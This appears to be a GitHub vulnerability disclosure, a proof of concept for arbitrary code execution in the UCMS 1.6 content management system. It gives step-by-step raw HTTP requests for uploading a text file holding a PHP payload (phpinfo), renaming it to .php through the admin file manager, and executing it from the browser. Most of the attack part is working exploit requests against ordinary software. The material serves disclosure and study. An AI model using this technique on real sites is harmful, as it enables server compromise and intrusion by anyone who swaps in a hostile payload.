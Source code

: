 ## Arbitrary code execution vulnerability exists in UCMS 1.6

vendor: http://uuu.la/

Download link for UCMS-1.6 installation package: http://uuu.la/uploadfile/file/ucms_1.6.zip

Log in to the backend and click File Management

![image](https://user-images.githubusercontent.com/54017627/161387511-0f14e60c-4589-4b2c-8240-ced3f676fb61.png)

Click Select File-> Select 1.txt File, and then click upload

The file content of 1.txt is "<? php phpinfo ();? >"

![image](https://user-images.githubusercontent.com/54017627/161387536-5d37274a-2dbd-4d3a-8548-079c97d3f4c5.png)

```sql
POST /ucms_1.6/ucms/index.php?do=sadmin_file&dir=/ucms_1.6 HTTP/1.1
Host: 192.168.1.101
Content-Length: 308
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.101
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOUdBWLlxxZUw6B5Q
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101/ucms_1.6/ucms/index.php?do=sadmin_file&dir=/ucms_1.6
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: admin_adc3f8=admin; psw_adc3f8=97376f13bb0b37ffdc31255d275d609c; token_adc3f8=8945ab62
Connection: close

------WebKitFormBoundaryOUdBWLlxxZUw6B5Q
Content-Disposition: form-data; name="uuu_token"

8945ab62
------WebKitFormBoundaryOUdBWLlxxZUw6B5Q
Content-Disposition: form-data; name="uploadfile"; filename="1.txt"
Content-Type: text/plain

<?php phpinfo(); ?>
------WebKitFormBoundaryOUdBWLlxxZUw6B5Q--
```

Place the mouse over the 1.txt line and choose to rename it and rename it to 1.php

![image](https://user-images.githubusercontent.com/54017627/161387687-a7d5b662-4cc3-4716-9f0d-fee101be3f3e.png)

![image](https://user-images.githubusercontent.com/54017627/161387750-2168f124-037e-46c3-919d-6f75db0c16f3.png)

```
GET /ucms_1.6/ucms/index.php?do=sadmin_file&uuu_token=8945ab62&dir=/ucms_1.6&dirname=/ucms_1.6/&oldname=1.txt&newname=1.php HTTP/1.1
Host: 192.168.1.101
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101/ucms_1.6/ucms/index.php?do=sadmin_file&dir=/ucms_1.6
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: admin_adc3f8=admin; psw_adc3f8=97376f13bb0b37ffdc31255d275d609c; token_adc3f8=8945ab62
Connection: close
```
We revisit the file management and find that the renaming has been successful.

![image](https://user-images.githubusercontent.com/54017627/161387783-891cfd16-b965-4c54-a8de-750fb7196d51.png)

We accessed the directory of the 1.php file from the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/161387865-87d0ca0f-2ee1-4e54-8462-646776446c20.png)
